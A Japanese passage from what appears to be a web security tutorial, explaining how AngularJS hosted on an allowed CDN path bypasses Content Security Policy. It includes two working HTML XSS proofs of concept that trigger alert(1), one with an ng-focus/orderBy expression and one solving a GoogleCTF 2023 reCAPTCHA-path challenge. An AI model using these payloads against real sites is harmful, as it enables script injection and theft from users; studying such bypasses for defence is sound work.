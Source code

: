 ## AngularJSとCSPバイパス

AngularJSは、実戦で最も一般的にCSPバイパスに使用されます。CSPで許可されているパス内にAngularJSを見つけることができれば、バイパスできる可能性が非常に高いです。例えば：

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta http-equiv="Content-Security-Policy" content="script-src https://cdnjs.cloudflare.com">
</head>
<body>
  <div ng-app ng-csp>
    <input id=x autofocus ng-focus=$event.composedPath()|orderBy:'(z=alert)(1)'>
  </div>

  <script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.3/angular.min.js"></script>
</body>
</html>
```

CSPは厳格で、`https://cdnjs.cloudflare.com` のみを許可していますが、これによりAngularJSを導入でき、XSSが発生します。

単純に見えますが、よく見ると簡単ではありません。考えてみてください。CSPには `unsafe-eval` がないため、文字列をコードとして実行することはできません。しかし、`ng-focus` 内のすべての文字列はどのように実行されるのでしょうか？それは文字列をコードとして実行しているのではないでしょうか？

これがAngularJSの素晴らしいところです。デフォルトモードでは、AngularJSは `eval` または同様のメソッドを使用して渡された文字列を解析します。しかし、[ng-csp](https://docs.angularjs.org/api/ng/directive/ngCsp)を追加すると、AngularJSに別のモードに切り替えるように指示します。独自のインタープリターを使用して文字列を解析し、対応するアクションを実行します。

したがって、AngularJSは独自の `eval` を実装して、これらのデフォルト関数を使用せずに文字列をコードとして実行できると考えることができます。

以前CSPバイパスについて話した際、パス構成をより厳密にすることで、「リスクを完全に排除する」のではなく「リスクを軽減する」ことができると述べました。例として、`https://www.google.com` の代わりに `https://www.google.com/recaptcha/` と設定することを挙げました。

実際、GoogleCTF 2023では、`https://www.google.com/recaptcha/` のCSPをバイパスする課題があり、その解決策はAngularJSを使用していました。これが、厳密なパスがリスクを軽減できるが完全に回避できない理由です。

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta http-equiv="Content-Security-Policy" content="script-src https://www.google.com/recaptcha/">
</head>
<body>
  <div
    ng-controller="CarouselController as c"
    ng-init="c.init()"
  >
  [[c.element.ownerDocument.defaultView.alert(1)]]
  <div carousel><div slides></div></div>

  <script src="https://www.google.com/recaptcha/about/js/main.min.js"></script>
</body>
</html>
```
